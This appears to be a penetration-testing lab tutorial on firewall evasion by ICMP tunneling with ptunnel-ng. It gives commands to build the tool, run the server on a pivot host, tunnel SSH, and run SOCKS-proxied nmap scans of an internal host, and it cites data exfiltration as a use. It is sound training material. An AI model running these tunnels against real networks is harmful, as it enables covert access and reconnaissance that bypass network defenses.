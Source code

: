 ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.
We will use the ptunnel-ng tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the ptunnel-ng client. We can start the ptunnel-ng server on the target pivot host. Let's start by setting up ptunnel-ng.
## Cloning Ptunnel-ng
```
w1j0y@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```
### Building Ptunnel-ng with Autogen.sh
```
w1j0y@htb[/htb]$ sudo ./autogen.sh
```
## Transferring Ptunnel-ng to the Pivot Host
```
w1j0y@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```
### Ubuntu Server 10.129.202.64
#### Starting the ptunnel-ng Server on the Target Host
```
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.89.32 -R22
```
The IP address following -r should be the IP we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. 
On the client & server side of the connection, we will notice ptunnel-ng gives us session logs and traffic statistics associated with the traffic that passes through the ICMP tunnel. This is one way we can confirm that our traffic is passing from client to server utilizing ICMP.
## Attack Host
Back on the attack host, we can attempt to connect to the ptunnel-ng server `(-p <ipAddressofTarget>)` but ensure this happens through local port 2222 (-l2222). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.
### Connecting to ptunnel-ng Server from Attack Host
```
w1j0y@htb[/htb]$ sudo ./ptunnel-ng -p10.129.89.32 -l2222 -r10.129.89.32 -R22
```
With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (-p2222).
```
w1j0y@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
```
### Enabling Dynamic Port Forwarding over SSH
```
w1j0y@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
### Proxychaining through the ICMP Tunnel
```
w1j0y@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```